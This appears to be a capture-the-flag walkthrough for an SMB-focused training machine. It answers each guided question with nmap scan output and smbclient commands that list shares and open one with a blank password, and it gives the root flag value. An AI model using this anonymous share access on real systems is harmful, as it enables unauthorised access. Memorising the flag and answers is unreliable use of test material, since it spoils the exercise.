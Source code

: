 
Ip: 10.129.49.144

1: What does the 3-letter acronym SMB stand for?

	Server Message Block

2: What port does SMB use to operate at?

	445

3: What is the service name for port 445 that came up in our Nmap scan?

	nmap -sV 10.129.49.144
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-15 14:26 EDT
	Nmap scan report for 10.129.49.144
	Host is up (0.23s latency).
	Not shown: 997 closed tcp ports (conn-refused)
	PORT    STATE SERVICE       VERSION
	135/tcp open  msrpc         Microsoft Windows RPC
	139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp open  microsoft-ds?
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 31.04 seconds

	microsoft-ds?

4: What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

	With smb -h we can find the flag to list
	-L

5: How many shares are there on Dancing?

	smbclient -L 10.129.49.144
	Password for [WORKGROUP\kali]:
	
	        Sharename       Type      Comment
	        ---------       ----      -------
	        ADMIN$          Disk      Remote Admin
	        C$              Disk      Default share
	        IPC$            IPC       Remote IPC
	        WorkShares      Disk      
	Reconnecting with SMB1 for workgroup listing.
	do_connect: Connection to 10.129.49.144 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
	Unable to connect with SMB1 -- no workgroup available

	4

6: What is the name of the share we are able to access in the end with a blank password?

	Workshares

	smbclient \\\\10.129.49.144\\WorkShares
	Password for [WORKGROUP\kali]:
	Try "help" to get a list of possible commands.
	smb: \> 

7: What is the command we can use within the SMB shell to download the files we find?

	get

8: Submit root flag

	At james profile we have flag.txt we can get this flag:
	5f61c10dffbc77a704d76016a22f1664     

